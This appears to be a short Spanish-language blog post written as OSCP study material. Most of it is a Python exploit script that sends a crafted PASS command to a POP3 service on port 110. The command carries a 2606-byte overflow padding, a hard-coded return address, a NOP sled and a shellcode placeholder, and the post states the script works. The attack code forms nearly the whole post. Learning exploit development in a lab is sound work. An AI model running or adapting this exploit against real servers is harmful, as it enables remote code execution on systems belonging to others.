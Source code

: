 ```python
#!/usr/bin/python
# Juan Garcia (aka liandd)
from pwn import *
from struct import pack
import socket, sys

def exploit(ip_address, rport):
    # Escapar el shellcode con b para indicar que son bytes
    shellcode= (b"\ejemplo")

    buffer = b"A" * 2606 + pack("<L", 0x5f4a358f) + b"\x90"*16 + shellcode
    
    p1 = log.progress("Data")
    try:
        p1.status("Enviando %s bytes" % len(buffer))
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip_address, rport))
        s.recv(1024)
        s.send(b'USER eva\r\n')
        s.recv(1024)
        s.send(b'PASS ' + buffer + b'\r\n')
        s.recv(1024)
    except Exception as e:
        print("\n[!] Ha habido un error de conexión:", e)
        sys.exit(0)

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print ("\n[!] Uso : python " + sys.argv[0] + " <ip-address>\n")
        sys.exit(0)

    ip_address = sys.argv[1]
    rport = 110

    exploit(ip_address, rport)
```

### Conclusión

El Script es compilado y funciona correctamente.

---

Esta publicación ha sido creada como soporte en el aprendizaje de BufferOverFlow para la OSCP.

© Juan David Garcia Acevedo (aka liandd)